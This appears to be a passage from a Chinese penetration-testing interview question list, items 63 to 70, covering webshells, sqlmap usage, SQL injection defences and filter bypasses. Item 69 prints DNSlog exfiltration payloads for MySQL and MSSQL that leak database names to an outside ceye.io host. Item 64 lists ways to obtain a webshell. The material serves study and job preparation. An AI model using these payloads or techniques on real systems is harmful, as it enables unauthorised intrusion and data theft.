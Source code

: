 ### 63. 为什么aspx木马权限比asp大？

> aspx使用的是.net技术。IIS中默认不支持，ASP只是脚本语言而已。入侵的时候asp的木马一般是guest权限…APSX的木马一般是users权限。

### 64. 如何拿一个站点的webshell？

> 1. 上传木马文件（脚本文件或者压缩文件）
> 2. 登录后台，修改模板文件
> 3. SQL shell
> 4. 命令执行
> 5. 代码执行

### 65. 项目上漏洞扫描需注意哪些？

> 跟客户确认`是否充许登录扫描`、`扫描并发连接数及线程数`、`是否充许暴力破解`，`什么时间扫描`、`通知客户备份一下数据``，开启业务系统及网站运维监控`，以免断机可及时恢复

### 66. sqlmap，怎么对一个注入点注入？

> 1. 如果是 get 注入，直接，sqlmap -u "注入点网址"；
> 2. 如果是 post 注入，可以 sqlmap –r "burp 地址访问包”；
> 3. 如果是 cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap -r "文件地址"，记得加上—level 3参数；

### 67. SQL注入的防护方法？

> 1. 函数过滤，，如!is_numeric 函数 //判断变量 id 是否为数字
> 2. 直接下载相关防范注入文件，通过 include 包含放在网站配置文件里面，如 360、阿里云、腾迅提供的防注入脚本
> 3. WAF拦截
> 4. 使用PDO预编译
> 5. 使用那个白名单来规范化输入验证方法

### 68. 盲注IF被过滤怎么绕过？

> 使用内联注释来绕过函数的检测

### 69. SQL注入无回显，利用DNSlog如何构造？

> 1. 没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁 IP，可以尝试调整请求频率，有条件的使用代理池进行请求。
>
> 2. 此时也可以使用 DNSlog 注入，原理就是把服务器返回的结果放在域名中，然后读取 DNS 解析时的日志，来获取想要的信息。
>
> 3. Mysql 中利用load_file()构造payload :
>
>    ‘ and if((select load_file(concat(‘\\\\’,(select database()),’.xxx.ceye.io\\abc’))),1,0)#
>
> 4. Mssql 下利用 master..xp_dirtree 构造 payload
>
>    DECLARE @host varchar(1024);SELECT @host=(SELECT db_name())+’.xxx.ceye.io’;EXEC(‘master..xp_dirtree”\’+@host+’ \foobar$”‘);

### 70. 预编译能不能百分百防御SQL注入？如不能请举例
